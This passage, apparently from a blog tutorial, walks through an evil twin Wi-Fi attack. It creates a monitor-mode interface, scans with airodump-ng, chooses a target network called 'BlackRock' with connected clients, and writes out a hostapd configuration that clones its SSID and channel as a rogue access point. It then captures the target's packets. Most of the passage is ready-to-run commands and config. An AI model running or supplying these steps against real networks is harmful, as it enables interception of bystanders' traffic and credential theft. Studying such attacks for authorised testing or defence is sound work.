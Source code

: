 One of the things that I like to do before starting any wireless attack, is to create different virtual interfaces for different modes. By default our wireless adapter will be in managed mode, for monitor mode, we can create another virtual interface.

```bash
iw dev $card interface add mon0 type monitor
```

![t](/Images/evil-twin/Pasted image 20231114231247.png){:.shadow}

So now we have two virtual interfaces, `mon0` for anything that requires monitor mode, and `wlx08ea35e1b4ea` for our rogue access point.

### 1. Identifying the target

To search for available networks around us, we'll sniff packets using airodump-ng

```bash
sudo airodump-ng mon0
```

![t](/Images/evil-twin/Pasted image 20231115002522.png){:.shadow}

Our target network is `BlackRock` and we can see that it has two clients connected to it. Good for us :)  There are a few things we need to note here, that'll help us with our rogue AP.
- Channel: 10
- Authentication Method: PSK
- Encryption Type: CCMP ( Commercially called WPA2 )

### 2. Setting up rogue access point / evil twin

Now that we have enough information about the target network, we'll setup our rogue AP. Hostapd requires a configuration file where we specify all the required parameters for the AP. 

```bash
# Hostapd.conf
interface=wlx08ea35e1b4ea # interface to use
ssid=BlackRock # access point ssid
channel=10 # the channel our AP will operate on
# WPA2 Conifgs
wpa=2 # use WPAv2
wpa_passphrase=wedontcare # PSK of our rogue AP
wpa_key_mgmt=WPA-PSK # mode Pre shared key
rsn_pairwise=CCMP #encryption
```

Save the configuration file and run it

```bash
sudo hostapd hostapd.conf
```

Along with hostapd, we'll also run airodump-ng and start capturing packets

```bash
sudo airodump-ng mon0 --essid "BlackRock" --channel 10 -w capture --output-format cap
# --essid : The essid to capture packets for
# --channel : Which channel to capture packets on
# -w : output file name
# --output-format : specifying the output file format
```
